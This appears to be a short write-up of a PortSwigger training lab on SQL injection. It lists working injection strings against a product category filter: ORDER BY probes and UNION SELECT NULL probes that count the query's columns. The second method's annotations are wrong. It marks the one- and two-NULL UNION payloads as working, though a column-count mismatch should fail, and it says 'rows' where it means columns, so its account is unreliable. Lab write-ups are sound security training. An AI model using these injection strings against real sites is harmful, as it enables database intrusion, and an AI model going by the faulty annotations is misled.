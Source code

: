 ```yaml
---
title: 🕸️ PSA - SQLi 3 - UNION attack, determining the number of columns returned by the query
date: 2023-03-02
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.

## ✅ Solution

Initial request:

````text
<website>/products?category=Gifts
````

Now we can use 2 technics to determine the number of rows returned:

### Method 1 - ORDER BY

````text
<website>/filter?category=Gifts' ORDER BY 1--    # works
<website>/filter?category=Gifts' ORDER BY 2--    # works
<website>/filter?category=Gifts' ORDER BY 3--    # works
<website>/filter?category=Gifts' ORDER BY 4--    # error!
````

So we know 3 columns are returned.

### Method 2 - UNION SELECT NULL

````text
<website>/filter?category=Gifts' UNION SELECT NULL--    # works
<website>/filter?category=Gifts' UNION SELECT NULL,NULL--    # works
<website>/filter?category=Gifts' UNION SELECT NULL,NULL,NULL--    # works
<website>/filter?category=Gifts' UNION SELECT NULL,NULL,NULL,NULL--    # error!
````

Same result: 3 columns are returned.

